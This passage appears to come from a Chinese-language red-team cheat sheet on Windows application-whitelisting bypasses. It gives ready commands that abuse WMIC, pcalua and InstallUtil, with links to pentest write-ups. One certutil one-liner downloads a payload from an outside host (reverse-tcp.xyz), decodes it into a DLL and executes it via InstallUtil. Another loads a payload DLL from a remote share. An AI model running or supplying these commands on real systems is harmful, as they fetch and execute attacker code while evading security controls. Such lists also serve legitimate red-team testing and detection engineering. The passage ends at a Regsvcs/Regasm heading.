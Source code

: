 Links:

- https://posts.specterops.io/bypassing-application-whitelisting-with-runscripthelper-exe-1906923658fc
- http://www.4hou.com/technology/8999.html

####  WMIC

使用wmic创建进程执行程序

```powershell
wmic process call create calc
```

Links:

- https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory

#### Pcalua

 Windows程序兼容性助理(Program Compatibility Assistant)的一个组件，通过-a参数可以直接执行exe或者dll

```powershell
C:\windows\system32\pcalua.exe -a C:\file.lnk 
C:\windows\system32\pcalua.exe -a notepad.exe 
C:\windows\system32\pcalua.exe -a \\server\payload.dll
```

Links：

- http://scz.617.cn/windows/201203151045.txt

#### InstallUtil

InstallUtil是.NET框架的一部分，允许用户通过命令提示快速安装和卸载应用程序

```powershell
x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.exe
```

当然可以结合其他命令使用，比如Certutil

```powershell
certutil -urlcache -split -f http://reverse-tcp.xyz/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

Links:

- https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
- https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/InstallUtil.md

#### Regsvcs/Regasm
